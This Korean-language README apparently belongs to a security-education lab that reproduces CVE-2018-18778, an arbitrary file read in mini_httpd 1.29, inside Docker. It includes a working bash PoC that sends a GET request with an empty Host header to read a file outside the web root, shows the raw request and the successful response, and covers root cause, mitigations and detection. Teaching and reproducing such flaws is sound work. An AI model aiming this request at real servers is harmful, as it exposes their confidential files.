


# CVE-2018-18778 mini_httpd 임의 파일 읽기 취약점

> 본 환경은 보안 교육 및 취약점 분석 과제를 위한 목적으로 제작되었습니다. 

## 1. 취약점 요약

CVE-2018-18778은 mini_httpd 1.30 이전 버전의 가상 호스트 처리 과정에서 발생하는 임의 파일 읽기 취약점입니다.

가상 호스트 모드에서 HTTP `Host` 헤더와 요청 경로를 이용해 파일 경로를 생성하는 과정에서 검증이 불충분합니다. 공격자는 비어 있는 `Host` 헤더와 절대경로 형태의 요청을 전송하여 웹 루트 외부의 파일을 읽을 수 있습니다.

- CVE: CVE-2018-18778
- 대상 소프트웨어: mini_httpd
- 취약 버전: 1.30 이전
- 실습 버전: 1.29
- 취약점 유형: 임의 파일 읽기
- 공격 벡터: 네트워크
- 사용자 상호작용: 불필요
- 주요 영향: 기밀성 침해

## 2. 환경 구성

### 요구 사항

- Docker
- Docker Compose v2
- Bash
- netcat
- curl

### 파일 구조

~~~text
CVE-2018-18778/
├── Dockerfile
├── docker-compose.yml
├── poc.sh
├── README.md
├── images/
│   ├── 01-compose-running.png
│   └── 02-poc-success.png
├── src/
│   ├── mini_httpd-1.29.tar.gz
│   └── mini_httpd-1.29.tar.gz.sha256
└── www/
    └── index.html
~~~

mini_httpd 1.29 소스 압축파일은 `src/` 디렉터리에 포함되어 있습니다. 따라서 Docker 이미지 빌드 과정에서 외부 mini_httpd 다운로드 서버에 의존하지 않습니다.

베이스 이미지는 `debian:12.10-slim`으로 고정하였으며, mini_httpd 1.29가 현대 glibc 환경에서 빌드될 수 있도록 `HAVE_INT64T` 컴파일 옵션을 사용했습니다.

이 옵션은 중복된 `int64_t` 자료형 선언만 비활성화하며, 취약한 HTTP 요청 처리 로직은 변경하지 않습니다.

## 3. 취약 조건

다음 조건에서 취약점이 발생합니다.

1. mini_httpd 1.30 이전 버전을 사용합니다.
2. mini_httpd가 가상 호스트 모드인 `-v` 옵션으로 실행됩니다.
3. 공격자가 mini_httpd 서비스에 HTTP 요청을 보낼 수 있습니다.
4. 비어 있는 `Host` 헤더와 절대경로 형태의 요청이 처리됩니다.
5. mini_httpd 프로세스가 대상 파일을 읽을 권한을 가지고 있습니다.

본 환경에서는 실제 시스템 민감정보 대신 다음 실습용 파일을 사용합니다.

~~~text
/opt/proof/secret.txt
~~~

파일 내용은 다음과 같습니다.

~~~text
CVE-2018-18778-PROOF-SUCCESS
~~~

## 4. 환경 실행

현재 디렉터리에서 다음 명령을 실행합니다.

~~~bash
docker compose up -d --build
~~~

실행 상태를 확인합니다.

~~~bash
docker compose ps
~~~

정상 실행 시 다음과 같이 컨테이너가 `Up` 상태로 표시됩니다.

~~~text
cve-2018-18778-mini-httpd   Up   127.0.0.1:8080->8080/tcp
~~~

## 5. 재현 절차

### 5.1 PoC 실행

~~~bash
./poc.sh
~~~

PoC는 먼저 대상 TCP 포트가 열려 있는지 확인한 뒤 다음과 같은 조작된 HTTP 요청을 전송합니다.

~~~http
GET /opt/proof/secret.txt HTTP/1.1
Host:
Connection: close
~~~

정상적인 가상 호스트 처리라면 웹 루트 외부의 `/opt/proof/secret.txt` 파일에 접근할 수 없어야 합니다.

그러나 취약한 mini_httpd 1.29는 비어 있는 `Host` 헤더와 절대경로 요청을 잘못 처리하여 해당 파일을 반환합니다.

## 6. PoC 코드

~~~bash
#!/usr/bin/env bash

set -euo pipefail

TARGET_HOST="${TARGET_HOST:-127.0.0.1}"
TARGET_PORT="${TARGET_PORT:-8080}"
EXPECTED="CVE-2018-18778-PROOF-SUCCESS"

echo "[*] Target: ${TARGET_HOST}:${TARGET_PORT}"
echo "[*] Checking TCP connection..."

if ! timeout 3 bash -c     "</dev/tcp/${TARGET_HOST}/${TARGET_PORT}" 2>/dev/null; then
    echo "[-] Target port is not reachable."
    echo "[-] Run: docker compose up -d"
    exit 1
fi

echo "[+] mini_httpd port is reachable."
echo "[*] Sending crafted request with an empty Host header..."

response="$(
    printf 'GET /opt/proof/secret.txt HTTP/1.1\r\nHost:\r\nConnection: close\r\n\r\n'         | timeout 5 nc "${TARGET_HOST}" "${TARGET_PORT}"         || true
)"

echo "----- response start -----"
printf '%s\n' "${response}"
echo "----- response end -------"

if [[ "${response}" == *"${EXPECTED}"* ]]; then
    echo "[+] Vulnerability reproduced successfully."
    exit 0
fi

echo "[-] Expected proof string was not returned."
exit 1
~~~

## 7. 실행 결과

PoC 실행 결과 mini_httpd 1.29 서버가 HTTP 200 응답과 함께 웹 루트 외부의 실습용 파일 내용을 반환했습니다.

~~~text
HTTP/1.1 200 Ok
Server: mini_httpd/1.29 23May2018
Content-Type: text/plain; charset=UTF-8
Content-Length: 29

CVE-2018-18778-PROOF-SUCCESS
~~~

PoC는 응답에서 성공 문자열을 확인한 뒤 다음 메시지를 출력합니다.

~~~text
[+] Vulnerability reproduced successfully.
~~~

## 8. 취약점 원인

mini_httpd의 가상 호스트 모드에서는 HTTP `Host` 헤더를 이용하여 요청 파일의 경로를 결정합니다.

취약 버전에서는 비어 있는 `Host` 헤더와 절대경로 요청에 대한 검증이 충분하지 않아 요청 경로가 웹 루트 내부로 제한되지 않습니다.

처리 흐름은 다음과 같습니다.

~~~text
공격자가 조작된 HTTP 요청 전송
        ↓
비어 있는 Host 헤더 처리
        ↓
절대경로 형태의 요청 경로 사용
        ↓
웹 루트 제한 우회
        ↓
mini_httpd 실행 권한으로 파일 읽기
~~~

따라서 공격자는 mini_httpd 프로세스가 읽을 수 있는 파일에 접근할 수 있습니다.

## 9. 대응 방안

### 9.1 안전한 버전으로 업데이트

mini_httpd 1.30 이상으로 업데이트합니다.

### 9.2 가상 호스트 기능 제한

업데이트가 즉시 어려운 경우 `-v` 가상 호스트 모드를 비활성화합니다.

### 9.3 접근 권한 최소화

mini_httpd를 최소 권한 계정으로 실행하고 민감한 파일에 대한 읽기 권한을 제한합니다.

### 9.4 외부 접근 제한

방화벽 또는 리버스 프록시를 사용하여 mini_httpd 서비스에 대한 외부 접근을 제한합니다.

### 9.5 비정상 요청 탐지

다음과 같은 요청을 로그에서 탐지합니다.

- 비어 있는 `Host` 헤더
- 절대경로 형태의 요청
- 웹 루트 외부 파일을 대상으로 한 요청
- 시스템 파일명 또는 민감 경로를 포함하는 요청

## 10. 재현성 검증

채점 환경에서 동일한 결과를 재현할 수 있도록 다음 요소를 적용했습니다.

- `docker compose up -d --build` 명령으로 환경 구축 가능
- mini_httpd 1.29 소스를 저장소 내부에 포함
- 취약 버전 고정
- Debian 베이스 이미지 버전 고정
- PoC 성공 여부를 고정된 문자열로 자동 판별
- 실제 시스템 파일 대신 실습용 증거 파일 사용
- `docker compose down -v` 이후 캐시 없이 재빌드하여 검증
- 컨테이너 종료 및 재실행 후에도 동일한 결과 확인

다만 Docker Hub에서 Debian 베이스 이미지를 내려받아야 하므로 외부 네트워크가 완전히 차단된 환경에서는 최초 빌드가 제한될 수 있습니다.

## 11. CVSS 위험도

NVD에 등록된 CVSS 3.x 기준 위험도는 6.5(Medium)입니다.

~~~text
CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N
~~~

- AV:N: 네트워크를 통해 공격할 수 있습니다.
- AC:L: 복잡한 공격 조건이 필요하지 않습니다.
- PR:L: 제한적인 접근 권한이 필요한 것으로 평가됩니다.
- UI:N: 사용자의 추가 동작이 필요하지 않습니다.
- S:U: 영향 범위가 취약한 구성요소 내에 머무릅니다.
- C:H: 민감한 파일이 노출될 수 있어 기밀성 영향이 높습니다.
- I:N: 파일 변조 영향은 확인되지 않습니다.
- A:N: 직접적인 서비스 가용성 영향은 확인되지 않습니다.

## 12. 환경 종료

실습 종료 후 다음 명령으로 컨테이너와 네트워크를 삭제합니다.

~~~bash
docker compose down -v --remove-orphans
~~~

종료 상태는 다음 명령으로 확인할 수 있습니다.

~~~bash
docker compose ps
~~~

## 13. 참고 자료

- CVE-2018-18778 공식 CVE 기록
- NVD CVE-2018-18778
- mini_httpd 공식 배포 페이지
- Vulhub mini_httpd CVE-2018-18778 분석 자료
